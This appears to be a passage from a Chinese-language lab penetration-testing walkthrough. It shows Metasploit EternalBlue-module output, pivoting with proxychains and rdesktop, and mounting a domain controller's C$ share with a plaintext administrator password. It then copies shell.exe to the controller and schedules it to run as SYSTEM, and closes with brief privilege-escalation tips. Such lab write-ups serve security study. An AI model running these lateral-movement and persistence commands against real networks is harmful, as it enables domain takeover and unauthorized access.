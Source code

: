 ```
msf6 auxiliary(admin/smb/ms17_010_command) > run

[-] 192.168.117.128:445   - Rex::HostUnreachable: The host (192.168.117.128:445) was unreachable.
[*] 192.168.117.128:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/smb/ms17_010_command) > 
```

此时再次扫描就会发现其状态开启

之后

```
root@kali:~/桌面# proxychains rdesktop 192.168.117.128
```

就可以访问内网主机了

```
run post/windows/gather/enum_patches模块可以查看是否打了补丁
```

# 实现域控

先用win7连接域控的c盘共享

```
 net use \\192.168.52.128\c$ "wenhaosec@2020" /user:"administrator"
```

使用dir 就可以查看域控的资源了。

将win7主机上的shell.exe上传到域控上

```
 copy c:\phpstudy\www\yxcms\shell.exe \\192.168.52.128\c$ 
```

设置一个任务计划，定时启动木马之后就能够获取域控的shell了

```
shell schtasks /create /tn "test" /tr C:\shell.exe /sc once /st 18:05 /S 192.168.52.128 /RU System  /u administrator /p "wenhaosec@2020"
```

## 提权

windows-ms系列 补丁ks 没有修补 直接上官网找相应ms

linux kerneal  .c 通过gun把.c作为一个可执行文件 做linux提权 去exploit-db找exp利用

# 参考文章

[Kali系列之multi/handler(渗透win7)](https://www.cnblogs.com/chenglee/p/8820406.html)

[记一次Windows渗透提权历程](https://www.baidu.com/link?url=keFDCp9kg9oaRAE-zChX_RCLnrs_d8QFLriaFqPSwJ7nAA8tW7oHCPyp8JFLhUVu&wd=&eqid=a9a9597e00000eb9000000065fe5ef52)
